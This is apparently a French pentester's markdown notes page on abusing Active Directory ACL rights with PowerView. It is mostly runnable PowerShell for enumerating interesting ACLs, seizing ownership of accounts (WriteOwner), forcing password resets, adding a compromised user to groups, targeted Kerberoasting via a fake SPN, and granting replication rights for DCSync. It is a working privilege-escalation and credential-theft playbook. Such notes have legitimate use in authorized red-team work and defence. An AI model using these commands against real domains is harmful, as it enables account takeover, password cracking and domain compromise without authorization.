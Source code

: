 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Enumération des ACLs
```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exploitation de privilèges en notre possession

On s'appuiera souvent sur des informations d'identification différentes d'un compte préalablement compris. 
Dans ce cas, on utilisera le parametre `-Credential $creds` avec un objet PSCredential créé de la façon suivante :

```powershell
$pass = "somePass"
$user = "DOMAIN\someuser"
$creds = New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString $pass -AsPlainText -Force))
```

### WriteOwner (appropriation d'un objet)

Permet de s'approprier un objet pour ensuite accéder à ses propriétés et ajouter d'autres ACLs (par exemple l'ajout du droit ForceChangePassword)

```powershell
# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity $compromisedUser
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword
```

### ForceChangePassword (modification du mot de passe)
```powershell
# Réinitialisation du password
$pass = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $pass
```

### GenericWrite 

Permet :
- l'ajout d'un utitilisateur comme membre d'un groupe sur le quel on dispose de ce droit
- la modification du script de login pour tenter une exécution de code à distance (au prochain logon)
```powershell
Add-DomainGroupMember -Identity "Target Group With GenericWrite right" -Members 'compromised'
# Verification
Get-DomainGroupMember -Identity "Target Group With GenericWrite right" | ?{$_.MemberName -eq 'compromised'}
```

### GenericAll
#### Sur un compte utilisateur
- Permet de récupérer le hash du mot de passe d'un utilisateur sur lequel on dispose de ce privilège.
- L'attaque se nomme "Targetted Kerberoasting".
- Elle conciste en la création d'un SPN sur le compte cible afin de récupérer un TGS à cracker hors ligne.
- Si le mot de passe est facile à deviner, on pourra le casser comme dans une attaque de Kerberoasting classique ([[Cassage de mots de passes Kerberos]])

```powershell
# Création d'un faux SPN pour pouvoir récupérer un TGS
Set-DomainObject -Identity $targetedUser -SET @{serviceprincipalname='nonexistent1/BLAHBLAH'}
# Récupération du TGS
Get-DomainUser $targetedUser | Get-DomainSPNTicket | fl
# Cleanup
Set-DomainObject -Identity $targetedUser -Clear serviceprincipalname
```

#### Sur un groupe
- elle permet de s'ajouter comme membre du groupe

#### Sur une OU
- elle permet d'ajouter un controle total sur l'OU et disposer d'un controle totale sur les objets qui sont dedans

### WriteDacl

Permet d'ajouter des DACL sur un compte utilisateur.
Cela peut permettre d'ajouter les permissions `DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All` et `DS-Replication-Get-Changes-In-Filtered-Set` qui permettent de réaliser une attaque ([[DCSync]])
